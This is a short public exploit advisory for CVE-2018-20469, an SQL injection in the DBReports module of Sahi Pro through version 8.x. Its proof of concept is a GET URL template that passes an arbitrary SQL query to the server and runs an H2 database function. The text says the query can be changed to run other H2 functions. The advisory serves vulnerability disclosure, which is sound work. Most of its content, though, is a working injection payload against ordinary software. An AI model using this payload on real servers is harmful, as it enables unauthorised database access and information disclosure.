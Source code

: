 EXP
---

    # Exploit Title: Sahi pro ( <= 8.x ) sensitive information disclosure by SQL injection.
    # Date: 17-06-2019
    # Exploit Author: Goutham Madhwaraj ( https://barriersec.com )
    # Vendor Homepage: https://sahipro.com/
    # Software Link: https://sahipro.com/downloads-archive/
    # Version: 7.x , <= 8.x
    # Tested on: Windows 10
    # CVE : CVE-2018-20469
    # POC-URL : https://barriersec.com/2019/06/cve-2018-20469-sahi-pro/

    Description :

    An issue was discovered in Tyto Sahi Pro through 7.x.x and 8.0.0. A parameter in the web reports module is vulnerable to SQL injection. This can be exploited to inject SQL queries and run standard h2 system functions.


    POC :

    vulnerable URL :

    ''' replace the ip and port of the remote sahi pro server machine '''


    # here sql query is passed directly as part of GET request which can be modified to run standard h2 database functions. in the following POC , "memory_used()" function is injected , which is reflected in "status" column of reports page.

    http://<ip>:<port>/_s_/dyn/pro/DBReports?sql=SELECT DISTINCT memory_used() AS ROWSTATUS, SCRIPTREPORTS.SCRIPTREPORTID,SCRIPTREPORTS.SCRIPTNAME,SUITEREPORTS.* FROM SUITEREPORTS,SCRIPTREPORTS
